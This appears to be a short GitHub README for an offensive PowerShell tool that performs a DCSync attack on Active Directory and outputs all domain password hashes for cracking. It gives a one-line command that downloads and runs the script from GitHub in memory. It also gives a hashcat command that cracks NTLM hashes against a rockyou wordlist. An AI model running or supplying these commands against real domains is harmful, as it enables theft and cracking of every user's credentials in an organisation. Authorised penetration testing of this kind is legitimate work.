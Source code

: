 # DCSync-To-hashcat
Performs DCSync, extracts all hashes in a hashcat friendly format

Execute from GitHub:

```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-hashcat.ps1)
```

![image](https://user-images.githubusercontent.com/68926315/222810926-7b0c6bfd-e93b-42bc-95c4-877bb6b31a81.png)

# hashcat

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes Wordlists/rockyou2021.txt
```
